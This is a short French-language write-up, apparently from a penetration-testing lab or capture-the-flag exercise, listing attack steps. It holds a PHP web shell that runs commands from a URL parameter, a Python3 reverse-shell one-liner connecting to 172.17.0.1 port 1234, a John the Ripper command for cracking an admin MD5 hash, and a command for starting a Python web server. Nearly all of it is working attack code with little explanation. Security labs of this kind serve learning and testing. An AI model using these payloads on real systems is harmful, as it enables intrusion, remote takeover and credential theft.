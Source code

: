 **Payload PHP**

Le code malveillant dans le fichier php

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

**Reverse Shell**

La commande pour récupérer mon reverse shell avec python3

```bash
export RHOST="172.17.0.1";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

**Exemple de Script pour Craquer un Mot de Passe :**

```bash
john hashAdmin.txt --format=Raw-MD5
```
![Alt text](img/mdpAdmin.png "Configuration PHP exposée")

**Création Serveur Web Python3**

Commande pour monter un serveur web avec python3

```bash
python3 -m http.server 9090
```

--- 

